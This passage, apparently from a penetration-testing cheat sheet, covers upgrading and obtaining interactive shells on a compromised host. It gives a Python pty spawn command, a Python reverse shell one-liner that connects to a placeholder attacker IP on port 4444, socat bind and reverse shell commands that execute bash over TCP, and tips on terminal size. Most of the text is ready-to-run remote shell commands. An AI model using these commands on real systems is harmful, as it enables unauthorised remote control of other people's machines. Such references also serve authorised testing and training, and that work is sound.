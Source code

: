 An upgrade from a regular semi-interactive shell. You can execute the following command in your existing shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Or initiate reverse connection:

```bash
python -c 'import socket,subprocess,os;\
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
s.connect(("<attackers_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);\
os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### Socat

Netcat on steroids! Seriously tho, go check this [tool's](http://www.dest-unreach.org/socat/) manual `man socat` and you'd be amazed what you can do with this tool regarding tunneling. Among other things it can spawn a fully interactive shell, even better than the aforementioned python-pty. The downside is that you most probably will have to build/install this tool on the target server as it is not a default utility in most unix-like distributions.

#### Bind shell

Set listener:

`socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane`

Connect to the listener:

```socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337```

#### Reverse shell

Set listener:

```socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0```


Connect to attacker's machine:

``` bash
socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```

#### Terminal size

By default the terminal size is quite small, as you may notice when launching `top` command or editing files with a text editor. You can easily change this, use `stty -a ` command to get the size of your regular teminal:

```
$ stty -a
speed 38400 baud; rows 57; columns 211; line = 0;
``` 
